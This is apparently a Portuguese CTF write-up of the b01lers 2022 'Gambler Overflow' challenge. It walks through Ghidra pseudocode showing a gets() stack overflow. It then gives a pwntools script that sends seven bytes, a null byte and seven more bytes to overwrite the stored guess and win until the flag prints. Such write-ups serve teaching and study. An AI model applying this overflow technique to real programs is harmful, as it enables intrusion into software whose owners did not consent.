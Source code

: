 ```yaml
---
layout: post
title: Gambler Overflow - [b01lers CTF]
date: 2022-04-27 22:26
author: obrerodrigues
comments: true
categories: [CTFs]
---
```

Caso queira acompanhar, o binário do challenge está [aqui](https://github.com/brerodrigues/exploit_drafts/tree/main/ctfing/b01lers_CTF_2022/gambler_overflow). E o link com as informações do evento [aqui](https://ctftime.org/event/1583).

Existe um óbvio buffer overflow que permite sobreescrever o valor que guarda o valor correto:

```
Welcome to the casino! A great prize awaits you when you hit 1000 coins ;)
Your current balance: 100
Guess me a string of length 4 with lowercase letters: aaaa
Your guess: aaaa
Correct word: pmbp
Bummer, you lost. -10 coins.
Your current balance: 90
Guess me a string of length 4 with lowercase letters: AAAAAAAABBBBBBBB
Your guess: AAAAAAAABBBBBBBB
Correct word: BBBBBBBB
Bummer, you lost. -10 coins.
Your current balance: 80
Guess me a string of length 4 with lowercase letters: 
```

Essa tese pode ser confirmada ao se analisar o pseudo código gerado pelo Ghidra da função `casino`, responsável por maior parte da lógica do programa:

```C++
void casino(void)

{
  int iVar1;
  long in_FS_OFFSET;
  int local_24;
  char user_input [8];
  char correct_guess [8];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("Welcome to the casino! A great prize awaits you when you hit 1000 coins ;)");
  memset(correct_guess,0,8);
  memset(user_input,0,8);
  do {
    if ((int)balance < 1) goto LAB_00101745;
    printf("Your current balance: %d\n",(ulong)balance);
    for (local_24 = 0; local_24 < 4; local_24 = local_24 + 1) {
      iVar1 = rand();
      correct_guess[local_24] = (char)iVar1 + (char)(iVar1 / 0x1a) * -0x1a + 'a';
    }
    printf("Guess me a string of length 4 with lowercase letters: ");
    gets(user_input);
    printf("Your guess: %s\n",user_input);
    printf("Correct word: %s\n",correct_guess);
    iVar1 = strcmp(correct_guess,user_input);
    if (iVar1 == 0) {
      printf("You won (wow)! +%d coins.\n",(ulong)bet_win);
      balance = bet_win + balance;
    }
    else {
      printf("Bummer, you lost. -%d coins.\n",(ulong)bet_loss);
      balance = balance - bet_loss;
    }
    if ((int)balance < 0) {
      puts("You lost your entire balance! Better luck next time...");
      goto LAB_00101745;
    }
  } while ((int)balance < 1000);
  give_flag();
LAB_00101745:
  puts("See you next time!");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Pode se observar na linha 23 que o programa utiliza a função `gets` para obter o input do usuário, como `gets` não se importa com o tamanho do input, possibilita que seja armazenado em `user_input` um valor maior que os 8 chars previamente reservados, nos deixando sobreescrever os valores armazenados abaixo de `user_input` na stack. E logo abaixo de `user_input` na stack está, convenientemente, `correct_guess` com o valor pseudo aleatório gerado no looping iniciado na linha `36`.

Há um pequeno pulo do gato para ser bem sucedido ao explorar esse overflow. De que adianta poder trocar o valor de `correct_guess` se na hora da comparação os valores vão ser diferentes? Afinal, é necesário inserir um certo número de caracteres antes de se chegar na área de memória onde está `correct_guess` e na hora da comparação os dois valores não vão bater:

```
Guess me a string of length 4 with lowercase letters: AAAAAAAABBBBBBBB
Your guess: AAAAAAAABBBBBBBB
Correct word: BBBBBBBB
Bummer, you lost. -10 coins.
```

Todas as proteções populares estão habilitadas no binário (NX, PIE, Canaries), o que dificulta alguns tipos de ataque. Na linha `60` existe uma verificação que checka se o valor de `balance` é maior que `1000`. Caso seja, chama uma função que imprime a flag na tela. Como seria possível trapacear, já que controlamos o valor de `correct_guess`?

Aqui mora o momento que o gato dá seu pequeno pulo: na linha `47` é chamada a função `strcmp` para comparar `user_input` e `correct_guess`. `strcmp` foi feita para comparar duas strings e considera uma string uma sequência de caracteres finalizada por um NULL byte. Consegue entender onde quero chegar?

`gets`, diferente de `strcmp`, não se importa em consumir NULL bytes, ela vai lendo até encontrar um EOF (end of file, pode ser enviado com CTRL+D no terminal) ou um new line (um simples Enter). Então é possível inserir via `gets` uma string que formada por: 7 caracteres + NULL byte + 7 caracteres. Os primeiros 7 caracteres serão utilizados em `strcmp` como nosso input (ela vai desconsiderar o NULL byte e tudo que vier depois), e o segundo conjunto será o novo valor de `correct_guess`.

Aí vai o exploit que escrevi que provavelmente pode ser simplificado em apenas uma linha de código:

```python
#!/usr/bin/env python

from pwn import *

get_flag = False
chall_name = 'gambler_overflow'

def run_with_gdb(p):
    gdb.attach(p,'''
    b *main
    b *casino+280''')

def run_exploit(p, debug):
    if debug:
        run_with_gdb(p)
        

    overflow = (b'A' * 7) + b'\x00' + (b'A' * 7)

    while (True):
        output = p.recv(timeout=2).decode()
        #print(output)
        if "FLAG" in output:
            print(output)
        else:
            p.sendline(overflow)
            
    p.close()

if get_flag:
    p = remote('178.62.32.210', '30138')
    run_exploit(p, False)
else:
    process_full_path = './' + chall_name
    p = process(process_full_path)
    run_exploit(p, False)
```

e rodando:

```
[+] Starting local process './gambler_overflow': pid 7322
Your guess: AAAAAAA
Correct word: AAAAAAA
You won (wow)! +10 coins.
FLAG{isso_eh_a_flag_txt}

See you next time!
```
